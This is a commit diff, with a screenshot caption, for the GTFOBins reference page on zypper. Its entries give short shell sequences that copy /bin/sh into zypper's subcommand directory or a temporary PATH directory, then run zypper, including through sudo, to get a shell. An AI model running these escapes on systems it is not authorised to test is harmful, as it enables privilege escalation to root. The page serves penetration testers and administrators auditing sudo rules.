

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/zypper.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 991 px from its top, so only the background shows below that.

Commit message:
Update zypper.md according to requirements
- replaced sh by x
- added comment about privileged required
- replaced mkdir with mktemp
- remove the other descriptions
- added markdown formatting

```diff
--- a/_gtfobins/zypper.md
+++ b/_gtfobins/zypper.md
@@ -1,30 +1,25 @@
 ---
 functions:
   shell:
-    - description: Executables whose name begin by "zypper-" in the zypper_execdir (/usr/lib/zypper/commands) can be used as zypper subcommands.
+    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
       code: |
-        cp /bin/sh /usr/lib/zypper/commands/zypper-sh
-        zypper sh
-    - description: Executables whose name begin by "zypper-" in the $PATH can be used as zypper subcommands.
+        zypper x
+    - code: |
+        TF=$(mktemp -d)
+        cp /bin/sh $TF/zypper-x
+        export PATH=$TF:$PATH
+        zypper x
+  sudo:
+    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
       code: |
-        mkdir /tmp/foo
-        cp /bin/sh /tmp/foo/zypper-sh
-        export PATH=/tmp/foo:$PATH
-        zypper sh
-  sudo:
-    - description: Executables whose name begin by "zypper-" in the zypper_execdir (/usr/lib/zypper/commands) can be used as zypper subcommands.
-      code: |
-        cp /bin/sh /usr/lib/zypper/commands/zypper-sh
-        sudo zypper sh
-    - description: Executables whose name begin by "zypper-" in the $PATH can be used as zypper subcommands. Environment variables can be set using sudo VAR=value.
-      code: |
-        mkdir /tmp/foo
-        cp /bin/sh /tmp/foo/zypper-sh
-        sudo PATH=/tmp/foo zypper sh
-    - description: Executables whose name begin by "zypper-" in the $PATH can be used as zypper subcommands. Environment can be preserved using sudo -E.
-      code: |
-        mkdir /tmp/foo
-        cp /bin/sh /tmp/foo/zypper-sh
-        export PATH=/tmp/foo:$PATH
-        sudo -E zypper sh
+        sudo zypper x
+    - code: |
+        TF=$(mktemp -d)
+        cp /bin/sh $TF/zypper-x
+        sudo PATH=$TF zypper x
+    - code: |
+        TF=$(mktemp -d)
+        cp /bin/sh $TF/zypper-x
+        export PATH=$TF:$PATH
+        sudo -E zypper x
 ---
```
